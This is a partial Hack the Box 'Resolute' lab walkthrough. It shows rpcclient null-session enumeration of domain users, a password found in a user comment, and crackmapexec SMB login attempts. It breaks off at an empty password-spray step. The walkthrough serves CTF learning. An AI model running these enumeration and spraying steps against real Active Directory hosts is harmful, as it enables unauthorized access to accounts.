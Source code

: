 # Hack the Box - Resolute

# Enumeration
## NMAP
```CSS
▶ 
```

## RPC Client
  - Null Session Authentication
```CSS
▶ rpcclient -U "" -N 10.10.10.169
```

  - Enumerate Domain Users
```CSS
rpcclient $> enumdomusers
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d4596127-4b1b-4957-ac1b-c0e30d6cd312)

  - Query Users Info
```CSS
rpcclient $> querydispinfo
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ec7322f6-3ebb-4fb8-8691-c8c92af2dc0e)
The above command return brief information about all the users. An interesting comment for `RID 0x457` is also found.
```CSS
Credentials - marko:Welcome123!
```

  - Query Single User's Info
```CSS
rpcclient $> queryuser 0x1f4
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/56612aa0-fa48-41b2-ad95-e6cd47bf97a5)

---

## SMB
  - Attempt to login with found credentials.
```CSS
▶ crackmapexec smb 10.10.10.169 -u marco -p 'Welcome123!' --continue-on-success
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a8ca9538-8a8c-45f6-8263-89df0d2eaeb9)

### Password Spray
  - Create a file containing the list of users found via RPC.
  - Authenticate as any user using the password default password found.
```CSS
▶ 
```
